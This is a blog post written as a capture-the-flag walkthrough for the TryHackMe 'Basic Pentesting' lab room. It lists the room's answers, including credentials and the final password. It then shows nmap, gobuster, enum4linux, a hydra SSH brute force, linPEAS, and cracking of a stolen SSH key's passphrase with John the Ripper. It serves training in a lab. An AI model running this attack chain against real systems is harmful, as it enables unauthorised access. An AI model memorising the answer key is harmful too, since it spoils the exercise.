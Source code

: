 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [thm, easy, nmap, gobuster, enum4linux, hydra, linPEAS, JohnTheRipper]
---
```

![Basic Pentesting](./assets/basicpentesting.png){: .right }{: w="200" h="200" }
## Walkthrough
[https://tryhackme.com/room/basicpentestingjt](https://tryhackme.com/room/basicpentestingjt)

**Difficulty level:** Easy

## Task 1 Web App Testing and Privilege Escalation
In these set of tasks you'll learn the following:
 - brute forcing
 - hash cracking
 - service enumeration
 - Linux Enumeration

### Questions

Q1. What is the name of the hidden directory on the web server(enter name without /)?

> "development"

Q2. What is the username?

> "jan"

Q3. What is the password?

> "armando"

Q4. What service do you use to access the server(answer in abbreviation in all caps)?

> "SSH"

Q5. What is the name of the other user you found(all lower case)?

> "kay"

Q6. What is the final password you obtain?

> "heresareallystrongpasswordthatfollowsthepasswordpolicy$$"


### MyWalk

Beginning with an nmap scan, and save the results on nmap/initial for future reference:

```bash
nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46
```
{: .nolineno }

Now I'll enumerate any directories available:

```bash
gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt
```
{: .nolineno }

Q1 done

http://10.10.40.46/development give us 2 files referencing development messages between two users.

Lets use enum4linux:

```bash
/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log
```
{: .nolineno }

Users 'kay' and 'jan' found.

Q2 & Q5 done

Now I try to get the 'jan' password using brute force, and get answer to Q3:

```bash
hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4
```
{: .nolineno }

jan:armando, Q3 done

Now I'll try to login with shh credentials...

```bash
ssh jan@10.10.40.46
```
{: .nolineno }

After sucessfull connection, Q4 done. We will try some commands now...

```bash
jan@basic2:~$ ls -al
total 12
drwxr-xr-x 2 root root 4096 Apr 23 2018 .
drwxr-xr-x 4 root root 4096 Apr 19 2018 ..
-rw------- 1 root jan 47 Apr 23 2018 .lesshst
jan@basic2:~$ pwd
/home/jan
jan@basic2:~$ cat .lesshst
cat: .lesshst: Permission denied
jan@basic2:~$ cat /etc/passd
cat: /etc/passd: No such file or directory
jan@basic2:~$ sudo -l
[sudo] password for jan:
Sorry, user jan may not run sudo on basic2.
jan@basic2:~$ cd ..
jan@basic2:/home$ cd kay
jan@basic2:/home/kay$ cat pass.bak
cat: pass.bak: Permission denied
jan@basic2:/home/kay$ cat .viminfo
cat: .viminfo: Permission denied
```
{: .nolineno }

Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:

[https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)

After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:

```bash
scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm
```
{: .nolineno }

Checking the target:

```bash
jan@basic2:~$ cd /dev/shm
jan@basic2:/dev/shm$ ls
linpeas.sh
```
{: .nolineno }

Run it (on target):

```bash
./linpeas.sh | tee linlog.txt
```
{: .nolineno }

Found a id_rsa key. Past it in a file using nano and mark it as read only by us.
Now lets connect with the key of 'kay' user:

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
{: .nolineno }

At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa
After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.
First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:

```bash
/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt
```
{: .nolineno }

Now run john with the key against the rockyou.txt:

```bash
john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt
```
{: .nolineno }

we can see the paraphrase is 'beeswax'
Lets try to login again as kay.

```bash
sudo ssh -i kay_id_rsa kay@10.10.40.46
```
{: .nolineno }

Entering the paraphrase password 'beeswax' and success!  
Now is possible to read the pass.bak file and  
Q6 done

## Tools
- nmap
- gobuster
- enum4linux
- hydra
- linPEAS
- johntheripper
